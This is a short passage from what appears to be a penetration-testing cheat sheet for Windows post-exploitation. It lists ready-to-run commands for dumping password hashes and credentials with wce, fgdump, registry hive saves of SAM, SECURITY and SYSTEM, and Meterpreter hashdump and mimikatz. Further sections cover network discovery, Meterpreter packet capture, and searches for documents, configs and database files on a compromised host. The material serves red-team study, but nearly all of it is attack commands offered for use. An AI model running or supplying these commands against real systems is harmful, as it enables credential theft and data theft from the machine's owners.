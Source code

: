 ### Network secret

### Passwords and hashes

```
wce32.exe -w
wce64.exe -w
fgdump.exe

reg.exe save hklm\sam c:\sam_backup
reg.exe save hklm\security c:\security_backup
reg.exe save hklm\system c:\system

# Meterpreter
hashdump
load mimikatz
msv
Invoke-Mimikatz
Invoke-Mimikittenz
```

### Dualhomed

```
ipconfig /all
route print

# What other machines have been connected
arp -a
```

### Tcpdump

```
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```

### Interesting files

```
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql

# How to cat files in meterpreter
cat c:\\Inetpub\\iissamples\\sdk\\asp\\components\\adrot.txt

# Recursive search
dir /s
```
